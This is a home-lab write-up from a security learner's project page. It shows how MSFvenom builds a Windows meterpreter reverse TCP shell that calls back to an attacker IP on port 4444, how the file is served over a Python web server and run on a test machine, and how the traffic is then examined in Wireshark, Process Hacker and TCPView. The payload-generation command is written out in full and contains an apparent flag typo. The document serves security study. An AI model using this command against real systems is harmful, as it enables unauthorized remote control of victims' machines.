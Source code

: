# MSFvenom

![Pasted image 20240502094200](https://github.com/lm3nitro/Projects/assets/55665256/92706414-50e2-4614-85b6-e2b7560e74d7)

MSFvenom is a versitile tool in the Metaspolit Framwork  used for generated varios types of payloads and shellcode. It allows penetration tested and security researcherd to create custom payloads for exploitation, bypassing defenses, and gaining remote access to target systems. 

Key Features:
+ Payload Generation
+ Payload Format
+ Customization

### Scope:
I will installing and configuring MSFveno to create a customer reverse TCP shell payload on the attacking host (Linux OS) that will then be downloaded and executed by the victim host (Windows 10 OS). I will then analyze the traffic using various tools to see how the connection looks like and the payload execution at the packet level. 

### Tools and Technology:
Linux OS, Win 10 OS, Wireshark, Process Hacker, TCPview and MSFvenom

## Getting started with MSFvenon

Once MSFvenon is installed and runnig, using the -h lists the available options

```
msfvenom -h
```

![Pasted image 20240501131915](https://github.com/lm3nitro/Projects/assets/55665256/ac798fe5-2b2b-445f-903c-54aeec52edc1)

Listing the -l will show available payloads:

```
msfvenom -l payloads
```

![Pasted image 20240501132226](https://github.com/lm3nitro/Projects/assets/55665256/15af3e0c-0708-439c-ac06-af170979d19c)

Here we can see the total amount of payloads available at the time of this writing: 1475

```
msfvenom -l payloads | wc -l
```

![Pasted image 20240501132317](https://github.com/lm3nitro/Projects/assets/55665256/dab59089-4138-4765-9085-f053d88371e8)

## Custom payload for Windows:

I will be creating a custom payload for my Windows 10 host for testing and analysis. I be using the 'meterpreter_reverse_tcp'. This is a reverse tcp shell. A reverse tcp shell is used to establish a network connection from a compromised target back to the attacker's machine, which in turn facilitates remote control and command execution over the network. 

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.91.134 lport=4444 -4 exe -o lm3nitro_shell.exe
```

![Pasted image 20240501140620](https://github.com/lm3nitro/Projects/assets/55665256/061f31b8-12a7-4832-bfff-aaea596191b5)

Once that was complete, I can also verified my file information:

```
file lm3nitro_shell.exe
```

![Pasted image 20240501133716](https://github.com/lm3nitro/Projects/assets/55665256/94f63484-e1c7-4360-88af-2d58b2495fac)

I then used the exploit/multi/handler which provides a listening service to interact with the payload

![Pasted image 20240501133901](https://github.com/lm3nitro/Projects/assets/55665256/a912bfbf-372b-40c0-8dff-119db6fc56d5)

I configured the exploit/multi/handler to use with the custom payload. 

![Pasted image 20240501134438](https://github.com/lm3nitro/Projects/assets/55665256/ca2462d0-a320-4df5-8de3-ea1b3791b3a2)

I now needed a web server to serve the payload. As seen below, I chose it to be locally (192.168.91.134) on port 8000:

![Pasted image 20240501135301](https://github.com/lm3nitro/Projects/assets/55665256/171f630b-c618-447b-9d94-2096cee9be09)

## Downloading the payload:

Once everything was in place, I went to the Windows host, navigated to 192.168.91.134:8000 as specified above and downloaded lm3nitro_shell.exe I had previosuly created. 

![Pasted image 20240501135710](https://github.com/lm3nitro/Projects/assets/55665256/303251b2-3d73-4aff-823a-84f7bda6f9b9)

Using the following command on the attacking host I was able to see that the Windos host had indeed connected in real time:

```
python3 -m http.server
```

![Pasted image 20240501140151](https://github.com/lm3nitro/Projects/assets/55665256/60325139-29da-4ecd-935f-1b620351cd19)

I also ensured that I had Wireshark running and capturing the traffic on the network. Here we can see the traffic from the download:

![Pasted image 20240501135931](https://github.com/lm3nitro/Projects/assets/55665256/c444cd3f-6354-4126-9a99-857617248a4c)

After having downlaoded the executable, I then executed it:

![Pasted image 20240501140042](https://github.com/lm3nitro/Projects/assets/55665256/a6a5713d-2966-45d3-a7d6-d5a0bfdc43bb)

On the attacking host (msfvenom) I could see that it had been executed and details on the host regarding the user, OS version/build, etc. Also, using the shell command allowed me to successfully remotely connect to the target host over the network:

![Pasted image 20240501144904](https://github.com/lm3nitro/Projects/assets/55665256/afbfd0d0-7bef-4d2a-a5ce-62afd0217761)

## Traffic analysis of the payload:

Going back to Wireshark, I can see when the payload was executed. I was able to see the 200 ok when the target host navigated to the IP and port:

![Pasted image 20240501141911](https://github.com/lm3nitro/Projects/assets/55665256/810d5f2f-9b7f-4116-8d73-a41915740313)

I also used Process Hacker. Process Hacker is a free tool for Windows that helps manage and monitor what is happeneing. Windows by default comes with Task Manager, however, this is a more enhanced version of that. It provides more detailed information about running programs, CPU and memory. 

Taking a look at the lm3nitro_shell.exe that is running, I was also able to see the location, command line, time that it has running, and the Parent:

![Pasted image 20240501143036](https://github.com/lm3nitro/Projects/assets/55665256/c3d3bf25-9cf7-448d-8635-a7812a97ba06)

I also used TCPView (utility within Sysinternals) which lists all active network connections, showing the local and remote addresses, ports, protocols, and status. Here I could see that the connection was establish to the attacker IP on port 4444:

![Pasted image 20240501143308](https://github.com/lm3nitro/Projects/assets/55665256/af6dba33-5efe-45a4-9c29-af57d07e5f32)


### Summary:

I was able to install and configure MSFvenom and use it to create a rever tcp shell payload which was then downloaded by the victim (Windows 10 PC) to create a remote connection to it. While this was being downloaded and executed by the victim I had Wireshark running in the background to capture the traffic and have a look at how this malicious traffic looks at the packet level.  

Having done this allowed me to get a better understanding on attackers and a view into the malicious payloads that are readily available on tools such as MSFvenom. I was able to see how these payloads can be used to exploit vulnerable targets. I was able to further explore attack vectors and defense evasion techniques all in a safe and controlled environment. 

Overall, MSFvenom is a great tool becuase it really simplifies the creation of custom payloads for penetration testing and security assessments. I was ablen to generate malicious code tailored to my specific target. MSFvenom allows security professionals and ethical hackers to simulate real-world attacks and scenarions. One thing that I like is that it can be integrated with tools sucks as Metasploit to make it even more powerful. 


